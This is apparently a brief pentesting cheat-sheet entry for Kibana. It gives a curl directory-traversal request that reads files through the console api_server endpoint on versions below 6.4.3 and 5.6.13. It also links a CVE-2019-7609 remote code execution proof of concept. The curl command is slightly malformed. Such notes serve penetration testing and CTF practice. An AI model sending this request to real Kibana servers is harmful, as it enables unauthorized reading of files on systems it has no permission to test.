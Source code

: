 ```yaml
---
title: Kibana
desc: A proprietary data visualization dashboard software for Elasticsearch.
tags: [Elasticsearch]
alts: [ElasticsearchExploit]
website:
render_with_liquid: false
---
```


## Local File Inclusion on version < 6.4.3 & 5.6.13

```sh
curl -X http://10.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
```

<br />

## Remote Code Execution on version < 6.6.0

Reference: <a href="https://github.com/mpgn/CVE-2019-7609">https://github.com/mpgn/CVE-2019-7609</a>